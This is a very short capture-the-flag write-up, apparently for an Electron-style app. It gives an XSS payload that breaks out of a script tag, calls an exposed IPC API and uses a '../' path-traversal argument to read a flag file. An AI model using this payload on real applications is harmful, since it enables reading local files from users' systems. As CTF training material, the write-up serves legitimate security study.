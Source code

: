 ## Writeup

1. Using XSS, user has to call the exposed IPC module.
2. Below is the payload for the same

```
 </script><script>top.window.api.receive('reply',(e=>{alert(`${e}`)})); top.window.api.sessionCheck('session','../../../../../../home/ctf/flag.txt');</script>

 ```